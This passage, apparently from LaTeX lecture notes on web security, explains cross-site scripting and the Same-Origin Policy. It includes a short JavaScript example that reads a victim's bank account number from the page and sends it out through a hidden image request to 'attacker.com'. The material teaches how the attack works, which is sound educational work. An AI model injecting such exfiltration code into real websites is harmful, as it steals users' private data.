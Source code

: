 \documentclass[11pt,twoside]{scrartcl}
\begin{document}
The important thing to notice here is that the attacker has caused arbitrary JavaScript to run within the browsers of users who visit the site. Recalling our discussion of the Same-Origin Policy (SOP) from the previous lecture, that code will run in the context of the victim website. This is the origin of the term \emph{cross-site} scripting, where an attacker who is associated with one origin (e.g., \verb'attacker.com') causes script content to run on sites of a different origin (e.g., \verb'victim.com').

\subsection{Stealing information with XSS} 
The attack described in the example above may not seem like a big deal. After all, what sorts of bad things can a JavaScript app do anyway, especially considering that the SOP should prevent the script from communicating with other origins?

A basic XSS attack will leverage the DOM API in combination with the allowances for cross-domain embedded content to exfiltrate (i.e., send) information contained on a page back to a server controlled by the attacker. For example, suppose that that the vulnerable site on \verb'victim.com' displayed the user's bank account number in an HTML element with \verb'id' ``\verb'acctnum'''. Then the attacker could inject a script that first used the DOM API to obtain the displayed number:
\begin{lstlisting}[language=Java]
    acctnum = document.getElementById('acctnum').Value;
\end{lstlisting}
Now the attacker wishes to send this information to his server at \verb'attacker.com'. Although the SOP prevents most forms of bi-directional communication  between separate origins, this doesn't matter in the least for the attacker's goals. They can simply use the DOM API again to create a new \verb'img' element on the victim site, with the secret account number contained in the URI of the requested image.
\begin{lstlisting}[language=Java]
    var imgelt = document.createElement("img");
    imgelt.setAttribute('src', 'http://attacker.com/'+acctnum+'.png');
    imgelt.setAttribute('height', '1px');
    imgelt.setAttribute('width', '1px');
    document.body.appendChild(imgelt);
\end{lstlisting}
When this code runs, the user's browser will proceed by updating the DOM of the victim site with a new 1-pixel image pointed at a URI containing the user's account number. Because the SOP allows cross-origin communication for embedded images, the user's browser will send a request to \verb'attacker.com' for the corresponding image file, and the attacker's web server can record the account number.
\end{document}
